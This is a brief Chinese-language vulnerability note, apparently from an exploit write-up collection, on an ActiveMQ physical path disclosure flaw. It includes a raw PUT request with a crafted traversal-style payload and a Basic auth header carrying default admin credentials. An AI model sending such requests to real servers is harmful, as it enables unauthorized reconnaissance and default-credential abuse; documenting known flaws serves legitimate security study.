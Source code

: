 <section data-v-419f5ab5="" class="markdown-section markdown-body"><h1 id="activemq物理路径泄漏漏洞">ActiveMQ物理路径泄漏漏洞</h1>
<h2 id="一漏洞简介">一、漏洞简介</h2>
<p>ActiveMQ默认开启PUT请求，当开启PUT时，构造好Payload(即不存在的目录)，Response会返回相应的物理路径信息</p>
<h2 id="二漏洞影响">二、漏洞影响</h2>
<h2 id="三复现过程">三、复现过程</h2>
<pre><code class="language-html">Request Raw:
PUT /fileserver/a../../%08/..%08/.%08/%08 HTTP/1.1
Host: 192.168.197.25:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 4
</code></pre>
</section>

